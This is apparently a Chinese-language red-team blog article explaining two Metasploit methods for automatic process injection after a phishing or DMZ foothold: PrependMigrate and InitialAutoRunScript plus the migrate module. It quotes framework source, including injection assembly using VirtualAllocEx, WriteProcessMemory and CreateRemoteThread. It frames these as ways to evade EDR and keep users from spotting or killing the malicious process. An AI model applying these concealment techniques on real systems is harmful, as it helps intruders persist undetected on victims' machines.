

# 自动进程注入的两种方式

# 前言
进程注入是内网渗透过程中常用的一种技术,当前流行内网渗透工具如Cobalt Strike,Metasploit-Framework,Empire等都支持进程注入功能,其底层原理都是在系统进程的内存中运行恶意代码,达到隐藏自身的作用.本文介绍使用metasploit-framework进行自动进程注入的两种方式及其优缺点.

# 为什么需要自动进程注入
如果渗透测试工程师通过外围打点的方式攻入内网(如获取DMZ主机的Webshell),通常使用免杀的Payload以绕过EDR的监控,与C2的通讯使用TLS加密以绕过流量监控设备,所以建立第一个立足点的操作不会引起任何安全设备的告警,此时内网管理员无法在第一时间察觉到异常,这种情况下通常无需进行进程注入操作或手动进行进程注入或迁移就可以满足要求,此时的隐蔽操作只是为了让后续溯源增加难度.

如果渗透测试工程师通过鱼叉钓鱼的方式攻入内网,则需要考虑更多的不确定因素,除了基本的绕过EDR及流量监控设备,还需要在目标上线后第一时间进行隐蔽操作,让普通用户无法察觉到异常或察觉到异常后无法关闭恶意进程,此时自动进程注入就成为了最基本的需求.

# PrependMigrate
## 运行原理
PrependMigrate是Metasploit-framework中Payload的高级参数之一,在进入payload模块后,使用 `advanced` 即可查看该参数.



从参数的描述可知,该参数设置为true时,会自动新建一个系统进程,并将shellcode注入到新进程中,可以通过PrependMigrateProc参数指定注入到哪个系统进程中.

参数相关核心代码在 `metasploit-framework\lib\msf\core\payload\windows\prepend_migrate.rb` 文件中,这里截取部分关键代码段

```ruby
  def apply_prepend_migrate(buf)
    pre = ''

    test_arch = [ *(self.arch) ]

    if prepend_migrate?
      # Handle all x86 code here
      if test_arch.include?(ARCH_X86)
        migrate_asm = prepend_migrate(buf)
        pre << Metasm::Shellcode.assemble(Metasm::Ia32.new, migrate_asm).encode_string
      # Handle all x64 code here
      elsif test_arch.include?(ARCH_X64)
        migrate_asm = prepend_migrate_64(buf)
        pre << Metasm::Shellcode.assemble(Metasm::X64.new, migrate_asm).encode_string
      end
    end
    return pre + buf
  end
```

代码判断对应的Payload是x86还是x64

```ruby
  def prepend_migrate(buf)
    payloadsize = "0x%04x" % buf.length
    procname = datastore['PrependMigrateProc'] || 'rundll32'

    # Prepare instructions to get address of block_api into ebp
    block_api_start = <<-EOS
      call start
    EOS
    block_api_asm = <<-EOS
...
...
...
    # Prepare default exit block (sleep for a long long time)
    exitblock = <<-EOS
      ;sleep
      push -1
      push 0xE035F044           ; hash( "kernel32.dll", "Sleep" )
      call ebp                  ; Sleep( ... );
    EOS
...
...
...
      lea edi,[eax+0x60]        ; Offset of empty space for lpProcessInformation
      push edi                  ; lpProcessInformation : write processinfo here
      push eax                  ; lpStartupInfo : current info (read)
      xor ebx,ebx
      push ebx                  ; lpCurrentDirectory
      push ebx                  ; lpEnvironment
      push 0x08000004           ; dwCreationFlags CREATE_NO_WINDOW | CREATE_SUSPENDED
      push ebx                  ; bInHeritHandles
      push ebx                  ; lpThreadAttributes
      push ebx                  ; lpProcessAttributes
      push esi                  ; lpCommandLine
      push ebx                  ; lpApplicationName

      push 0x863FCC79           ; hash( "kernel32.dll", "CreateProcessA" )
      call ebp                  ; CreateProcessA( &si );

      ; if we didn't get a new process, use this one
      test eax,eax
      jz payload                ; If process creation failed, jump to shellcode

    goodProcess:
      ; allocate memory in the process (VirtualAllocEx())
      ; get handle
      push 0x40                 ; RWX
      add bh, 0x10              ; ebx = 0x1000
      push ebx                  ; MEM_COMMIT
    EOS
    migrate_asm << <<-EOS
      push ebx                  ; size
      xor ebx,ebx
      push ebx                  ; address
      push [edi]                ; handle
      push 0x3F9287AE           ; hash( "kernel32.dll", "VirtualAllocEx" )
      call ebp                  ; VirtualAllocEx( ...);

      ; eax now contains the destination
      ; WriteProcessMemory()
      push esp                  ; lpNumberOfBytesWritten
      push #{payloadsize}       ; nSize
      ; pick up pointer to shellcode & keep it on stack
      jmp begin_of_payload
      begin_of_payload_return:  ; lpBuffer
      push eax                  ; lpBaseAddress
      push [edi]                ; hProcess
      push 0xE7BDD8C5           ; hash( "kernel32.dll", "WriteProcessMemory" )
      call ebp                  ; WriteProcessMemory( ...)

      ; run the code (CreateRemoteThread())
      push ebx                  ; lpthreadID
      push ebx                  ; run immediately
      push ebx                  ; no parameter
      mov ecx,[esp-0x4]
      push ecx                  ; shellcode
      push ebx                  ; stacksize
      push ebx                  ; lpThreadAttributes
      push [edi]
      push 0x799AACC6           ; hash( "kernel32.dll", "CreateRemoteThread" )
      call ebp                  ; CreateRemoteThread( ...);

      #{exitblock}              ; jmp to exitfunc or long sleep
```

可以总结出其功能主要通过汇编语言实现,基本流程

+ CreateProcessA新建进程,
+ VirtualAllocEx申请内存
+ WriteProcessMemory写入shellcode
+ CreateRemoteThread运行shellcode

## 运行效果
在payload中正确配置该参数后,生成对应的shellcode,使用loader加载器加载生成的shellcode时会自动新建系统进程并将shellcode注入到新进程中.


## 注意事项
通过前文的分析可以看到,PrependMigrate是通过将汇编代码嵌入到payload的shellcode中实现,其优点是执行阶段早,运行稳定.需要注意以下两点:

+ PrependMigrate只能应用于Payload,无法应用于Handler,因为PrependMigrate运行于stager1阶段,在连接handler之前.
+ PrependMigrate执行结束后原始的Loader进程不会退出,用户删除loader时会提示文件已被占用,不过手工结束Loader不会影响Session.


# InitialAutoRunScript + migrate
## 运行原理
这种方式是网络上各个教程介绍的方式,其实现原理是将metasploit-framework的 `InitialAutoRunScript` 自动执行脚本功能与 `post/windows/manage/migrate` 后渗透模块组合起来实现.

自动执行脚本有 `InitialAutoRunScript` 和 `AutoRunScript` 两个参数,参数信息如下:


可以看到其功能都是在Session创建后自动执行script(在msf5中改为post类型模块),`InitialAutoRunScript` 是在

`AutoRunScript` 之前执行.

其核心代码在 `metasploit-framework\lib\msf\base\sessions\command_shell.rb` 中

```ruby
  def process_autoruns(datastore)
    # Read the initial output and mash it into a single line
    if (not self.info or self.info.empty?)
      initial_output = shell_read(-1, 0.01)
      if (initial_output)
        initial_output.force_encoding("ASCII-8BIT") if initial_output.respond_to?(:force_encoding)
        initial_output.gsub!(/[\x00-\x08\x0b\x0c\x0e-\x19\x7f-\xff]+/n,"_")
        initial_output.gsub!(/[\r\n\t]+/, ' ')
        initial_output.strip!

        # Set the inital output to .info
        self.info = initial_output
      end
    end

    if datastore['InitialAutoRunScript'] && !datastore['InitialAutoRunScript'].empty?
      args = Shellwords.shellwords( datastore['InitialAutoRunScript'] )
      print_status("Session ID #{sid} (#{tunnel_to_s}) processing InitialAutoRunScript '#{datastore['InitialAutoRunScript']}'")
      execute_script(args.shift, *args)
    end

    if (datastore['AutoRunScript'] && datastore['AutoRunScript'].empty? == false)
      args = Shellwords.shellwords( datastore['AutoRunScript'] )
      print_status("Session ID #{sid} (#{tunnel_to_s}) processing AutoRunScript '#{datastore['AutoRunScript']}'")
      execute_script(args.shift, *args)
    end
  end
```

可以看出其代码逻辑是相同的,只不过执行顺序的差别.

进程注入(迁移)的操作依赖`post/windows/manage/migrate` 模块,我们截取模块部分核心代码

```ruby
  def run
...
    target_pid = nil

    if datastore['SPAWN'] and datastore['SPAWN'] != ""
      target_pid = create_temp_proc
    elsif datastore['PID'] and datastore['PID'] != 0
      target_pid = datastore['PID']
    elsif datastore['NAME'] and datastore['NAME'] != ""
      target_pid = session.sys.process[datastore['NAME']]
    end

...

    begin
      print_status("Migrating into #{target_pid}")
      session.core.migrate(target_pid)
      print_good("Successfully migrated into process #{target_pid}")
    rescue ::Exception => e
      print_error("Could not migrate into process")
      print_error("Exception: #{e.class} : #{e}")
    end

    if datastore['KILL']
      print_status("Killing original process with PID #{original_pid}")
      if has_pid?(original_pid)
        session.sys.process.kill(original_pid)
        print_good("Successfully killed process with PID #{original_pid}")
      else
        print_warning("PID #{original_pid} exited on its own")
      end
    end
  end
```

基本流程

+ 通过Pid或进程名查找目标进程
+ 通过session.core.migrate迁移进程
+ 通过选项确定是否kill原始进程

其中session.core.migrate是最关键的操作,其代码位于 `metasploit-framework\lib\rex\post\meterpreter\client_core.rb` 中,关键代码段

```ruby
  def migrate(target_pid, writable_dir = nil, opts = {})
...
    migrate_stub = generate_migrate_stub(target_process)
    migrate_payload = generate_migrate_payload(target_process)

    # Build the migration request
    request = Packet.create_request(COMMAND_ID_CORE_MIGRATE)

    request.add_tlv(TLV_TYPE_MIGRATE_PID, target_pid)
    request.add_tlv(TLV_TYPE_MIGRATE_PAYLOAD, migrate_payload, false, client.capabilities[:zlib])
    request.add_tlv(TLV_TYPE_MIGRATE_STUB, migrate_stub, false, client.capabilities[:zlib])

    if target_process['arch'] == ARCH_X64
      request.add_tlv( TLV_TYPE_MIGRATE_ARCH, 2 ) # PROCESS_ARCH_X64

    else
      request.add_tlv( TLV_TYPE_MIGRATE_ARCH, 1 ) # PROCESS_ARCH_X86
    end

    # if we change architecture, we need to change UUID as well
    if current_process['arch'] != target_process['arch']
      client.payload_uuid.arch = target_process['arch']
      request.add_tlv( TLV_TYPE_UUID, client.payload_uuid.to_raw )
    end

    # Send the migration request. Timeout can be specified by the caller, or set to a min
    # of 60 seconds.
    timeout = [(opts[:timeout] || 0), 60].max
    client.send_request(request, timeout)

...

    if client.passive_service
      # Sleep for 5 seconds to allow the full handoff, this prevents
      # the original process from stealing our loadlib requests
      ::IO.select(nil, nil, nil, 5.0)
    elsif client.pivot_session.nil?
      # Prevent new commands from being sent while we finish migrating
...

        # Restart the socket monitor
        client.monitor_socket
      end
    end

    # Renegotiate TLV encryption on the migrated session
    secure

    # Load all the extensions that were loaded in the previous instance (using the correct platform/binary_suffix)
    client.ext.aliases.keys.each { |e|
      client.core.use(e)
    }
...
    return true
  end
```

基本流程

+ 创建migrate所需的初始连接shellcode及payload的shellcode
+ 通过stdapi通用的request接口发送TLV请求到Session的stdapi(代码参考 `metasploit-payloads\c\meterpreter\source\extensions\stdapi\server\sys` )
+ 根据不同类型的session新建监听进程
+ 加载原始监听的ext插件

## 运行效果
在Hander中正确配置参数后,所有使用此Hander上线的Session都会生效.Session在初始化完成后会自动迁移到指定进程中.


## 注意事项
通过前文的分析可以看到,InitialAutoRunScript + migrate是在Session初始化完成后开始运行,需要注意以下几点:

+ InitialAutoRunScript + migrate只能应用于Hander,不能应用于Payload.因为执行时Payload已经执行完成
+ InitialAutoRunScript + migrate在执行后不会占用loader,用户删除loader时无提示,隐蔽性更好
+ InitialAutoRunScript + migrate在执行是动作较大,可能会导致Session掉线.


# 总结
综上所述,PrependMigrate和InitialAutoRunScript + migrate实现自动进程注入各有优缺点,在鱼叉钓鱼场景中,如果更追求稳定性,可以使用PrependMigrate,如果对隐蔽性要求更高,则可以使用InitialAutoRunScript + migrate.


